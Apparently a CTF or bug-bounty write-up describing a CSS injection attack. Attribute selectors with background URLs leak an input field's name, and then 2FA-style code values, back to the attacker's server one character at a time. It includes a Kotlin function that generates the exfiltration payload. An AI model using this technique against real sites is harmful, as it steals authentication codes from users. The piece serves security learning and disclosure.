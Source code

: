 And the result:

{F862864}

Everything good so far. I started by checking if the server had any `<input>` field by returning the following CSS:

```css
input {
	background-image:url("/test2");
}
```

I got a request. So this means that the page has an `<input>` field. That is where the code should be. I improved my code to retrieve the name of the input.

The method generates an exfiltration payload containing all possible letters and numbers pointing the background url back to the server with the letter that got an hit:

```kotlin
const val allowedChars = "0123456789abcdefghijklmnopqrstuvxyzABCDEFGHIJKLMNOPQRSTUVXYZ"
//...
private fun generateExfilPayload(): String {
    val singleExfilPayload = """
        input[name^=%s] {
            background:url(/hit?char=%s);
        }
        
    """.trimIndent()

    val builder = StringBuilder()

    for (char in allowedChars.toCharArray()) {
        builder.append(singleExfilPayload.format(char, char))
    }

    return builder.toString()
}
```

I'm using `input[name^=%s]` which means that any input field whose name starts with the letter `%s` will have a background of `/hit?char=%s`. When I get back the first result, I update the server to include the new letter. 

Imagining that the input is `username`, I should receive first a `/hit?char=u`. Changing the selector to `input[name^=u%s]` should give me the second char and so on.

This gave me an input named `code`. I did a quick double check with `input[name=code]` but nothing popped up. The input starts with `code` but it's not code. And the char next is not available in my `allowedChars`. I tested for both `-`and `_` and I got a hit at the underscore. I proceed with the payload `input[name^=code_%s]` and I got 7 hits.

What? There are 7 codes in this application? So the user can pick one at will? Well I do have more than one backup code for 2FA in my personal apps. Maybe that's the case. Let's focus on `code_1`.

This is where things went crazy. At every request, the code from the input changed. There is no way I could retrieve all possible chars of `code_1`. Exactly. All possible chars. At this point I was totally convinced that there were 7 inputs, each one with 7 digits, representing 7 different codes. And it would be a pain to retrieve them since they are changing at every request.
